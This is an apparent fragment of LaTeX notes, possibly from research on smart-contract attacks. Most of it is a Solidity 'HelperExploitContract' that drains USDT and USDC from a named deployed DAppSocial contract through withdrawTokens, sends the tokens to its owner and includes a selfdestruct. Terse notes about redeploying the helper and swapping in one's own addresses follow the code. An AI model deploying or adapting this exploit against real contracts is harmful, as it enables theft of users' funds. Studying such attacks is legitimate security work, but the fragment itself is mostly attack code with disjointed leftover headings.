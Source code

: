 \begin{lstlisting}[language=Solidity]
contract HelperExploitContract {
    IUSDT private constant USDT = IUSDT(0xdAC17F958D2ee523a2206206994597C13D831ec7);
    IERC20 private constant USDC = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    IDAppSocial private constant DAppSocial = IDAppSocial(0x319Ec3AD98CF8b12a8BE5719FeC6E0a9bb1ad0D1);
    address payable private immutable owner;

    constructor() {
        owner = payable(msg.sender);
    }

    // 0x42c59677 exploit function
    function exploit(address token, bool withdraw) external {
        require(msg.sender == owner, "Only owner");
        if (withdraw == true) {
            if (token == address(USDT)) {
                DAppSocial.withdrawTokens(address(token), USDT.balanceOf(address(DAppSocial)));
                USDT.transfer(owner, USDT.balanceOf(address(this)));
            } else {
                DAppSocial.withdrawTokens(address(token), USDC.balanceOf(address(DAppSocial)));
                USDC.transfer(owner, USDC.balanceOf(address(this)));
            }
        } else {
            DAppSocial.lockTokens(owner, 0);
        }
    }

    function killMe() external {
        require(msg.sender == owner, "Only owner");
        selfdestruct(owner);
    }
}
\end{lstlisting}

decompilation

signature

input



\subsection{On transaction}

execute directly

setup ourselves = redeploy their helper

mutate = replace addresses with own contracts

